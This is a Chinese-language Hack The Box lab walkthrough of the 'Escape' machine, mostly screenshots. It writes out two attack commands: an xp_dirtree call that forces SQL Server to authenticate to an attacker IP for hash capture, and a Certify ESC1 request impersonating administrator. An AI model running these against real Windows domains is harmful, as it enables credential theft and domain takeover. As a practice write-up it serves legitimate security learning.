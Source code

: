 +++
ShowToc = true
TocOpen = true
title = '0X023 Escape'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE240fca89a47034f53abe9633404aa2bdimage.png)

![](/htb_img/WEBRESOURCE879f954d7fb881ade1d7bc17e7aac2e4image.png)

![](/htb_img/WEBRESOURCEf7aa426ecdb6ae1e15d35397b13941d4image.png)

# 获取立足点

值得关注的端口：389，445，1433，5985

![](/htb_img/WEBRESOURCE86f4b2d645b49a6f29f43ef449edc719image.png)

smb发现这个东西：

![](/htb_img/WEBRESOURCE622d9e2dcc45ef56d812810e9a62425eimage.png)

发现sqlserver登录方式：

![](/htb_img/WEBRESOURCEf6f86c814237304e9ae50205f8812cadimage.png)

连接成功：

![](/htb_img/WEBRESOURCEfcf3e587b7fdca0e5f97b907476c477fimage.png)

看了一圈儿，确实没东西了：

![](/htb_img/WEBRESOURCE93c53ee64eda152b3a85dd37a474591cimage.png)

最后无奈看了wp，属实没想到，sqlserver也能玩儿relay：

![](/htb_img/WEBRESOURCEb4410d8a0f9b2db975f55218ef5b7042image.png)

EXEC MASTER.sys.xp_dirtree '\10.10.16.12\test', 1, 1

![](/htb_img/WEBRESOURCE11226968d518189f35c30b446f9d04c1image.png)

很快就破解了：

![](/htb_img/WEBRESOURCE2a5fbd741986f884e6e00480ac611c41image.png)

可以直接登录winrm:

![](/htb_img/WEBRESOURCE2527100e2c4da7b9bddff00d8ba82ec6image.png)

![](/htb_img/WEBRESOURCEe72515d5df9229358952cef420e422dcimage.png)

bloodhound:

无法分析出可用的路径：

![](/htb_img/WEBRESOURCEed4a4ebd002b6571a549c3bb96629870image.png)

winpeass也没能发现什么有用的东西，看了一下wp，呐应该是思路的缺失了，查看sqlserver的日志文件：

![](/htb_img/WEBRESOURCE3444a296c8840c0c82d03c468cf4a537image.png)

咋说呢，错误日志一般是不会记录错误密码的，但是会记录错误用户：

感觉还是有点缺乏想象力，这里应该是模仿用户输入错误了密码为用户名，导致日志被记录：

![](/htb_img/WEBRESOURCEec28db1f6252dfbd0177e8309ebf054fimage.png)

是远程组的：

![](/htb_img/WEBRESOURCEd7a2ddc8d65b75c8cd4d35e0720513e6image.png)

登录看看：

![](/htb_img/WEBRESOURCE48bee9d46c173643897e2ae0c40d3868image.png)

很好，bloodhound有局限，ADCS的相关内容其实也有了解，但是没想到这一点：

![](/htb_img/WEBRESOURCEc57b1c3d18a5c33ea7055cb65593cbcbimage.png)

ESC1：

.\Certify.exe request /ca:sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator

![](/htb_img/WEBRESOURCEb1b4d27cb784d2bbdaac9777449b7e84image.png)

复制出来，提取：

![](/htb_img/WEBRESOURCE2ce912c75e9c2ad1492c36814f69d5f8image.png)

获取hash:

![](/htb_img/WEBRESOURCEa4c4c2c72d448170fb9471b4334fcecbimage.png)
